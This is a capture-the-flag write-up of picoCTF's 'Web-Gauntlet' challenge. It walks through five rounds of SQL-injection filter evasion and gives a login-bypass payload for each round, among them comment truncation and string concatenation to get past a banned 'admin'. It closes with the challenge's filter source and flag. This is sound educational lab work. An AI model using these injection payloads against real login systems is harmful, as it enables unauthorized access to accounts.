```yaml
---
title: "Web-Gauntlet"
date: "2020-12-22"
author: "RealFakeAccount"
description: "https://play.picoctf.org/practice/challenge/88"
---
```

Put any username and password and you can see the SQL query.

<http://jupiter.challenges.picoctf.org:19593/filter.php> tells us which words is banned.

*Notes:*

Here is some common way to comment in SQL:
1. #
2. --
3. //
4. /**/
5. ; %00

### Round 1

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or
```

For the detail of the banned "OR" method, see <https://owasp.org/www-community/attacks/SQL_Injection>

let's use another methods.

We can change the username into `admin' --`, so the original SQL query becomes:

```sql
SELECT * FROM users WHERE username='admin' --' AND password='a'
```

which comments out the password part.

### Round 2

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or and like = --
```

Use ; to force break the query. 

Our username input is: `admin' ;`

and the SQL query becomes:

```sql
SELECT * FROM users WHERE username='admin' ;' AND password='a'
```

### Round 3


Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
   or and = like > < --
```

Note that Space is also in this filter. Use "View page Sourse" to see the space. 

So we can just erase the block in previous round: `admin';`, which gives us

```sql
SELECT * FROM users WHERE username='admin';' AND password='a'
```

### Round 4

They banned the `admin` now. Also, our `;` doess not work in this question.

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or and = like > < -- admin
```

Luckly, SQL have some function to concatenate string: `CONCAT`, `+`, `||`

After a few trial, we find that `||` worked.

Our payload is: `ad'||'min'/*`

```sql
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='a'
```

### Round 5

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
 or and = like > < -- union admin```
```

Previous one still work.

```sql
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='a'
```

After finish all 5 rounds, we can finally see the filter php file:

```php
 <?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}
?> 
```